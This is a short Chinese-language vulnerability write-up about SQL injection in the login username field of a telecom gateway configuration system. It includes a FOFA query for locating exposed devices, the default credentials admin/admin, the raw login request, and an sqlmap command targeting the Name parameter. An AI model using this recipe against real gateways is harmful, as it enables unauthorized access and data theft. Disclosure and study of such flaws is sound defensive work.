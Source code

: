 # 电信网关配置管理系统 SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 电信网关配置管理系统

## FOFA

> [!NOTE]
>
> body="src=\"img/dl.gif\"" && title="系统登录"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/dx-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

设备存在默认弱口令 **admin/admin**

![](http://wikioss.peiqi.tech/vuln/dx-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```
sqlmap -r sql-1.txt -p Name --risk 3 
```

![](http://wikioss.peiqi.tech/vuln/dx-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Hsmedia Hgateway default account

![](http://wikioss.peiqi.tech/vuln/dx-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)